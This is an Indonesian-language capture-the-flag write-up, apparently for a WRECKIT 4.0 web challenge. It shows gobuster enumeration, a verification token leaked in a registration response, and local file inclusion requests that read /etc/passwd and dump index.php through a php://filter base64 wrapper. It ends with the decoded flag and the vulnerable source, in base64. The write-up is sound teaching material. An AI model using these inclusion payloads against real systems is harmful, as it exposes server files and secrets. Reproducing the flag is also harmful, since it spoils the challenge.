

- [SOAL](#regis1337)
   - [FLAG](#flag1337)
   - [REFERENSI](#refe1337)


<a id="regis1337"></a>

# Soal

Diberikan sebuah soal



dengan alamat url : [http://167.71.207.218:35081](http://167.71.207.218:35081/)

saat dikunjungi url tersebut kita dihadapkan dengan halaman login


seperti isi soal yang terdapat clue yaitu register, kita bakal cari halaman untuk melakukan registrasi akun.
disini kita menggunakan gobuster untuk pencarian halaman registrasi
```
gobuster dir -u http://167.71.207.218:35081/ -w /Users/iluv/Desktop/ctf/directory-list-2.3-medium.txt -x php,html
```


halaman registrasi akun terdapat pada file `signup.php` 


kita lakukan registrasi akun dulu sebelum login, akan tetapi saat melakukan proses registrasi terdapat pesan `Error!`


pesan `Error! This feature is still under maintenance. Sorry!` menunjukan bahwa fitur registrasi akun lagi dalam perbaikan.

kita coba register lagi dengan akun yang sama untuk memastikan, dan terdapat pesan yang mengatakan 

`Email already exists`


loh katanya tidak bisa registrasi tetapi kok ada pesan `Email already exists` yang artinya akun sudah terdaftar karena ketika memasukan email yang sama saat registrasi email tersebut sudah ada. 

oke kita coba login, dan ketika kita melakukan login dengan akun yang sudah di register muncul lagi pesan

`User is not verified!`


apakah kita harus memverifikasi dulu lewat email? ketika cek melalui email tidak ada link atau kode verifikasi yang dikirim. 

`hhhhhmmmmmm!`


seperti yang sudah dijelaskan pada soal tersebut. 
> __Warning__
>
> Mau daftar ikut lomba? Silahkan akses web ini. Eh tapi tidak bisa register, lah gimana peserta mau join coba? Mungkin sebenarnya ada tapi tidak langsung terlihat, harus lebih jeli saja.

berbekal informasi soal diatas kita coba lakukan registrasi ulang dengan akun yang berbedah untuk pengujian, kemudian kita akan memantau dibalik proses register dengan `inspek element` pada browser kemudian pilih `Network` terus lakukan register dan kita akan mendapatkan `response` dari proses register seperti dibawah ini.


`response` dari proses registrasi terdapat url yang mengarah ke `localhost` yang ketika kita lihat terdapat url 
[http://localhost/verify_email.php?token=b7e42f4f5a3957fb546d18d93cff3303316f2ad546784d58634831b872684302](http://localhost/verify_email.php?token=b7e42f4f5a3957fb546d18d93cff3303316f2ad546784d58634831b872684302)

kita titik pusatkan pada bagian ini

`verify_email.php?token=b7e42f4f5a3957fb546d18d93cff3303316f2ad546784d58634831b872684302`

apakah ini `Dejavu?` ingat dengan pesan ini `User is not verified!` saat kita melakukan login? 
waah ternyata itu url untuk melakukan verifikasi akun saat kita melakukan registrasi, tapi mengarah ke `localhost`, waaiiittt kita coba dulu apakah `verify_email.php` bisa diakses melalui web? 

[http://167.71.207.218:35081/verify_email.php](http://167.71.207.218:35081/verify_email.php)

dan ternyata file tersebut ada dan bisa diakses
<a id="gmbr1337"></a>


ok! sekarang kita coba apakah bisa melakukan verifikasi


Woaaahhh Berhasil


Kita lakukan login kembali dengan akun yang sudah diverifikasi dan berhasil login.
ketika berhasil login kita di arahkan ke `index.php?file=test.txt`


Setelah lama berputar dengan `view-source` kita bakal mencoba dengan

```
http://167.71.207.218:35081/index.php?file=users.txt #blank
http://167.71.207.218:35081/index.php?file=user.txt #blank
http://167.71.207.218:35081/index.php?file=flag.txt #blank
```
ketika mencoba mengakses 
`http://167.71.207.218:35081/index.php?file=verify_email.php`
disitu tertulis `No token provided!` seperti pada gambar [ini](#gmbr1337)


Kita bisa memanggil file dari local dan ditampilkan, apakah ini vuln terhadap `LFI ( local file inclusion )` entahlah... tapi apa salahnya mecoba 
```
http://167.71.207.218:35081/index.php?file=/etc/passwd
```
ternyata berhasil


setelah beberapa lama mutar-mutar saya coba memanggil `index.php?file=index.php` apakah kode phpnya bakal muncul? 

```
http://167.71.207.218:35081/index.php?file=index.php
```


Ternyata gagal, dia hanya menimpah kembali file tersebut dan kita tidak dapat melihat isi kode `index.php`
Searching sana sini dan ketemu ` PHP Supported Protocols and Wrappers` 

```
file:// — Accessing local filesystem
http:// — Accessing HTTP(s) URLs
ftp:// — Accessing FTP(s) URLs
php:// — Accessing various I/O streams
zlib:// — Compression Streams
data:// — Data (RFC 2397)
glob:// — Find pathnames matching pattern
phar:// — PHP Archive
ssh2:// — Secure Shell 2
rar:// — RAR
ogg:// — Audio streams
expect:// — Process Interaction Streams
```

sepertinya ada yang menarik pada `Wrappers` dibawah ini 

```
php:// — Accessing various I/O streams
```

> __Note__
>
> PHP menyediakan sejumlah aliran I/O yang memungkinkan akses ke aliran input dan output PHP sendiri, deskriptor file input, output dan kesalahan standar, aliran file sementara yang didukung disk dan dalam memori, dan filter yang dapat memanipulasi sumber daya file lainnya karena dapat baca dan ditulis.

ok mari kita coba melihat isi kode dari file index.php dengan melakukan conver ke `base64`

```
http://167.71.207.218:35081/index.php?file=php://filter/convert.base64-encode/resource=index.php
```

dan ternyata bisa


berikut kode index.php yang berhasil di convert ke base64

```
PD9waHAgaW5jbHVkZSAnY29udHJvbGxlcnMvYXV0aENvbnRyb2xsZXIucGhwJz8+Cjw/cGhwCi8vIFdSRUNLSVQ0MHtuM3YzUl85MXYzX1VQXzRORF95MHVfYzROXzhSMzRrXzFOfQppZiAoIWlzc2V0KCRfQ09PS0lFWydyZWdpc3Rlcl91c2VyJ10pIHx8ICFpc3NldCgkX1NFU1NJT05bJ3VzZXJuYW1lJ10pKSB7CiAgICBoZWFkZXIoJ2xvY2F0aW9uOiBsb2dpbi5waHAnKTsKfSBlbHNlIHsgICAgCiAgICBlY2hvICc8IURPQ1RZUEUgaHRtbD4KICAgIDxodG1sIGxhbmc9ImVuIj4KICAgIDxoZWFkPgogICAgICA8bWV0YSBjaGFyc2V0PSJVVEYtOCI+CiAgICAgIDxtZXRhIG5hbWU9InZpZXdwb3J0IiBjb250ZW50PSJ3aWR0aD1kZXZpY2Utd2lkdGgsIGluaXRpYWwtc2NhbGU9MS4wIj4KICAgICAgPG1ldGEgaHR0cC1lcXVpdj0iWC1VQS1Db21wYXRpYmxlIiBjb250ZW50PSJpZT1lZGdlIj4KICAgIAogICAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9ImJvb3RzdHJhcC5taW4uY3NzIiAvPgogICAgICA8bGluayByZWw9InN0eWxlc2hlZXQiIGhyZWY9Im1haW4uY3NzIj4KICAgICAgPHRpdGxlPlVzZXIgSW50ZXJmYWNlPC90aXRsZT4KICAgIDwvaGVhZD4KICAgIAogICAgPGJvZHk+CiAgICAgIDxkaXYgY2xhc3M9ImNvbnRhaW5lciI+CiAgICAgICAgPGRpdiBjbGFzcz0icm93Ij4KICAgICAgICAgIDxkaXYgY2xhc3M9ImNvbC1tZC00IG9mZnNldC1tZC00IGhvbWUtd3JhcHBlciI+CiAgICAgICAgICAgIDxoND5XZWxjb21lLCAnLiRfU0VTU0lPTlsndXNlcm5hbWUnXS4nPC9oND4KICAgICAgICAgICAgPGtleXdvcmQ+JzsKICAgIGlmKGlzc2V0KCRfR0VUWydmaWxlJ10pKSB7CiAgICAgICAgJGZpbGUgPSAkX0dFVFsnZmlsZSddOwogICAgICAgIGluY2x1ZGUoJGZpbGUpOwogICAgfTsKICAgIGVjaG8gJzwva2V5d29yZD4KICAgICAgICAgICAgPGJyPgogICAgICAgICAgICA8YSBocmVmPSJsb2dvdXQucGhwIiBzdHlsZT0iY29sb3I6IHJlZCI+TG9nb3V0PC9hPgogICAgICAgICAgPC9kaXY+CiAgICAgICAgPC9kaXY+CiAgICAgIDwvZGl2PgogICAgPC9ib2R5PgogICAgPC9odG1sPic7Cn0KPz4KCg==
```

copy isi kode base64 dan kemudian kita decode kembali


<a id="flag1337"></a>

FLAG : `WRECKIT40{n3v3R_91v3_UP_4ND_y0u_c4N_8R34k_1N}`
<a id="refe1337"></a>
## Referensi

-  [Supported Protocols and Wrappers](https://www.php.net/manual/en/wrappers.php)
-  [php:// — Accessing various I/O streams](https://www.php.net/manual/en/wrappers.php.php)
-  [base64](https://emn178.github.io/online-tools/base64_decode.html)


